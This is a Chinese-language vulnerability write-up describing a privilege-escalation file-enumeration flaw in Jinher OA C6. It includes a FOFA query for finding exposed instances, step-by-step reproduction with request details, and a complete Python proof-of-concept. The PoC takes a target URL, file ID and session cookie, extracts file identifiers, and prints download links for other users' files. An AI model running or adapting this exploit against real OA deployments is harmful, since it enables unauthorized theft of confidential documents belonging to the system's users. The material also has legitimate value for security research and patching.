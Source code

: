 # 金和OA C6 后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

>[!NOTE]
>
>app="Jinher-OA"

## 漏洞复现

登录后点击信息交流，发起协同页面

![](http://wikioss.peiqi.tech/vuln/jh-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

上传附件并上传发送给目标

> [!NOTE]
>
> 这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程

![](http://wikioss.peiqi.tech/vuln/jh-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功收到上传的附件

![](http://wikioss.peiqi.tech/vuln/jh-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

点击查看时抓包，发现一个带有文件ID的请求包

![](http://wikioss.peiqi.tech/vuln/jh-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

返回了几个参数

```
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要

![](http://wikioss.peiqi.tech/vuln/jh-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 **type参数 ** 需要为正确的文件后缀才可以访问

```
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![](http://wikioss.peiqi.tech/vuln/jh-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

这里更换一个普通用户测试是否可行，尝试遍历 id

![](http://wikioss.peiqi.tech/vuln/jh-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/jh-11.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在 **strFilePath参数** 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

**FileID 与 FileIDCode**

![](http://wikioss.peiqi.tech/vuln/jh-13.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限

## 漏洞利用POC

> [!NOTE]
>
> POC只检测是否存在漏洞，且漏洞存在于后台需要登录
>
> 运行后访问链接即可下载文件

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&name=&type=pdf".format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号： {}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```

![](http://wikioss.peiqi.tech/vuln/jh-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)